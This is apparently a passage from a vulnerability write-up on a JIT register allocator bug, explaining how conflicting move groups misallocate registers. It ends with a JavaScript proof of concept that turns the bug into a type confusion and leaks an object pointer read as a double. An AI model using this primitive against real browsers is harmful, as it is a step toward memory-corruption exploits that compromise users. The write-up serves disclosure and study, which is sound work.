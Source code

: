 ```code
v3: block 0 @ rax, block 2 @ stack:8
v6: block 0 @ stack:16
v16: block 2 @ rax
```
Now BacktrackingAllocator::resolveControlFlow adds moves (via MoveGroup LIR statements) to account for the phi and the distinct ranges of v3 in the two blocks.It introduces a MoveGroup [rax -> stack:8] to the beginning of block 2 to change the v3 location and int.And it introduces a MoveGroup [stack:16 -> rax] to the end of block 0 to resolve the phi. These two changes conflict with each other: Instead of v3, v16 = v6 will be located at stack:8.
Visualization:

```code
v3:
 block 0 block 2
 rax ==================
 stack:8 ====================
v6 -> v16:
 block 0 block 2
 rax ====================
 stack:16 ==================
```
Conditions:
In order for this to occur we require the following conditions:
1. Two blocks A and B with a control flow edge A -> B
2. Vreg v1 that has distinct allocations x in A and y in B
3. a phi vreg v2 that has allocation x in B<br>

This will introduce the problematic pattern:
```code
MoveGroup [? -> x] // from phi
Goto B
MoveGroup [x -> y] // move due to changing allocation
```
With some manual experimenting, the register misallocation can be turned into a type confusion. The basic idea is to compile a function that takes two arguments, one of type X and one of type Y. The function then generates optimized code based on the speculated types and adds runtime guards to ensure that the speculations still holds.
However, due to the register misallocation, the register holding the value of type X is now overwritten with the value of type Y, causing the type confusion. The following code demonstrates this:
```JavaScript
// Generate objects with inline properties
for (var i = 0; i < 100; i++)
	var o1 = {
		s: "asdf",
		x: 13.37
	};
for (var i = 0; i < 100; i++)
	var o2 = {
		s: "asdf",
		y: {}
	};
function f(a, b) {
	let p = b;
	for (; p.s < 0; p = p.s)
		while (p === p) {}
	for (var i = 0; i < 10000000; ++i) {}
	return a.x;
}
f(o1, o2);
f(o1, o2);
console.log(f(o1, o2));
// Object @ 2.156713602e-314
```